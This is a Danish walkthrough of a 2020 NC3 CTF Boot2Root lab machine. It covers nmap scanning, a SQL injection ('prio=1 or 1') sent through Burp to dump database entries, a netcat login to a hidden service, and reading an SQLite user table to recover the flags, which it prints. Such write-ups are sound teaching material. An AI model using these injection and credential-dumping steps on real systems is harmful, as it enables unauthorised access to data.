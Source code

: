 ## B2R - Lillenisse
<hr>

I Boot2Root får deltagerne en maskine som de skal prøve at hacke sig ind i. Det er vores måde at få nogle opgaver med i konkurrencen indenfor "WEB" og "PWN". Disse er typisk hostet på en IP/Port som deltagerne får. Men desværre giver det mulighed for at uheldige typer kan ødelægge det sjove for alle andre, og vi ville derfor hellere give deltagerne en virtuel maskine (VM).

I 2018 gav vi derfor en ukrypteret virtuel maskine ligesom man kender det fra f.eks. Vulnhub.com. Men på trods af de gode intentioner, troede nogle at opgaven bare gik ud på at mounte maskinen og derved finde flagne. Ret ærgerligt, for maskinen var ellers ret fin.

I 2019 gav vi så en kørende virtuel maskine, der havde LUKS kryptering. Et par stykker i NC3 havde allerede fundet en vej udenom dette, men vi vurderede alligevel at hvis nogle deltagere gjorde det samme, så var det ok, da det trods alt krævede noget arbejde.

I år er det lidt anderledes: Vi har lavet en (privat) maskine på platformen TryHackMe.com, hvor deltagerne kan starte deres egen instans af vores maskine, men altså ikke downloade den.

<br>

### Gennemgang
<hr>

Denne gennemgang finder først flaget til mellemnisse og først derefter til lillenisse. Det er fordi vi springer SQLMap over, som ellers ville være den mest gængse vej, og viser en anden måde.

Brug f.eks. Kali eller Parrot i en VM.

Opret dig som bruger på TryHackMe.com og start maskinen. Vi starter med en NMAP:

```shell
kali@kali:~/Desktop$ nmap -v 10.10.158.251
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 07:22 EST
Initiating Ping Scan at 07:22
Scanning 10.10.158.251 [2 ports]
Completed Ping Scan at 07:22, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:22
Completed Parallel DNS resolution of 1 host. at 07:22, 0.03s elapsed
Initiating Connect Scan at 07:22
Scanning 10.10.158.251 [1000 ports]
Discovered open port 80/tcp on 10.10.158.251
Completed Connect Scan at 07:22, 5.57s elapsed (1000 total ports)
Nmap scan report for 10.10.158.251
Host is up (0.050s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.70 seconds
kali@kali:~/Desktop$
```

Der kører altså en hjemmeside på target.

Besøg hjemmesiden med en kombination af Burp og Firefox:

![](nc3ctf2020_lillenisse.png)

Vi ser at det er underligt at når der kommer et nyt entry med "høj prioritet", så filtreres listen og man ser kun ens ønsker med høj prioritet.

I Burp ser vi:

```text
POST /index.php HTTP/1.1
Host: 10.10.158.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.158.251/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Connection: close
Cookie: PHPSESSID=nbhvanoocra1ts4vsugmddkca0
Upgrade-Insecure-Requests: 1

wish=asdasdddd&prio=1


```

Vi laver en repeat uden "wish":

```text
POST /index.php HTTP/1.1
Host: 10.10.158.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.158.251/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Connection: close
Cookie: PHPSESSID=nbhvanoocra1ts4vsugmddkca0
Upgrade-Insecure-Requests: 1

prio=1


```

Dette returnerer en filtreret liste. Dette kunne tyde på en SQLi, og vi prøver:

```text
POST /index.php HTTP/1.1
Host: 10.10.158.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.158.251/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Cookie: PHPSESSID=nbhvanoocra1ts4vsugmddkca0
Upgrade-Insecure-Requests: 1

prio=1 or 1


```

Ganske rigtigt, så returneres nu alle ønsker i databasen. Bl.a.:

```text
Noget magi til at færdiggøre mit kodeprojekt på /nissetestprojekt2020
```

Dette fortæller os at vi bør ligge i den mappe på hjemmesiden.

Siden viser "Gå i DEV mode". Vi trykker, og tænker at det måske har åbnet for en firewall. Derfor NMAP'er vi igen:

```shell
kali@kali:~/Desktop$ nmap -v 10.10.158.251
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 07:36 EST
Initiating Ping Scan at 07:36
Scanning 10.10.158.251 [2 ports]
Completed Ping Scan at 07:36, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:36
Completed Parallel DNS resolution of 1 host. at 07:36, 0.01s elapsed
Initiating Connect Scan at 07:36
Scanning 10.10.158.251 [1000 ports]
Discovered open port 22/tcp on 10.10.158.251
Discovered open port 8080/tcp on 10.10.158.251
Discovered open port 80/tcp on 10.10.158.251
Completed Connect Scan at 07:36, 1.79s elapsed (1000 total ports)
Nmap scan report for 10.10.158.251
Host is up (0.043s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
kali@kali:~/Desktop$
```

Hov, nu er der to yderligere porte. Vi prøver port 8080:

```text
Directory listing for /

    nisseadgang.elf
```

Vi downloader filen, der skal reverses. Writeup til dette er [her](B2R%20-%20Mellemnisse.md). Vi finder kodeordet, der ligner et flag:

<details>
<summary>Spoiler alert - Flaget til mellemnisse:</summary>
nc3{abrakadabra_luk_dig_op}
</details>
<br>

Vi logger ind med kodeordet, der må tilhøre "mellemnisse":

```text
kali@kali:~/Desktop$ nc 10.10.158.251 4545
Nissernes indgang
---------------------------------
Kodeord: <REDACTED>
 ... ok
> id
uid=1002(mellemnisse) gid=1002(mellemnisse) groups=1002(mellemnisse)
```

Men det var jo flaget til "mellemnisse". Lad os prøve at finde flaget for "lillenisse". Et godt sted kunne være i databasen. Vi kigger i kildekoden for hjemmesiden og ser at databasen er SQLite, og ikke den mere gængse MySQL.

```text
cd /var/www
ls
database
html
cd database
ls
nisser.sqlite
strings nisser.sqlite
sh: 6: strings: not found
cat nisser.sqlite
SQLite format 3@  

f�%%�GtableønskesedlerønskesedlerCREATE TABLE "ønskesedler" (
    "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
    "bruger_id" INTEGER,
    "ønske" VARCHAR,
    "høj_prioritet" INTEGER DEFAULT 0,
        FOREIGN KEY (bruger_id)
        REFERENCES nisser (id) 
)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��        tablenissernisserCREATE TABLE "nisser" (
    "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
    "brugernavn" VARCHAR,
    "kodeord" VARCHAR
�����
���%ønskesedleremnisseEhh lillenisse, bruger du overhovedet salts?+!Glillenissenc3{jeg_er_ikke_til_at_finde}

nisser
�����:,!
        asdasdddd
                       asdasd   asd
                                        asdasdN �       Noget magi til at færdiggøre mit kodeprojekt på /nissetestprojekt2020*  En flyver (helst med plads til mange)    Stor yacht     En OK bil        Bare en cykel   En vandrestok!
```

Flaget er fundet for "lillenisse":

<details>
<summary>Spoiler alert - Flaget til lillenisse:</summary>
nc3{jeg_er_ikke_til_at_finde}
</details>
